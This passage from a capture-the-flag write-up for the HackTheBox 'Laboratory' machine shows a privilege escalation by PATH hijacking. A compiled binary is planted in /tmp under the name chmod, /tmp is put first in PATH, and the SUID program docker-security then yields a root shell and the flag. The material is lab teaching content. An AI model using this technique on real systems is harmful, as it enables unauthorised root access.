     oxdf@parrot$ gcc suid.c -o suid
    oxdf@parrot$ scp -i ~/keys/laboratory_dexter suid dexter@10.10.10.216:/tmp/chmod
    suid                                          100%   16KB 399.5KB/s   00:00
    

I’ll also update the `PATH` variable so that `/tmp` is the first directory
checked:

    
    
    dexter@laboratory:/tmp$ export PATH=/tmp:$PATH
    

When `docker-security` runs, when it makes the call to `chmod`, it will get
the `chmod` binary from `/tmp`, which will return a shell:

    
    
    dexter@laboratory:/tmp$ docker-security 
    root@laboratory:/tmp#
    

And I can grab `root.txt`:

    
    
    root@laboratory:/root# cat root.txt
    9b147368************************
    

[](/2021/04/17/htb-laboratory.html)

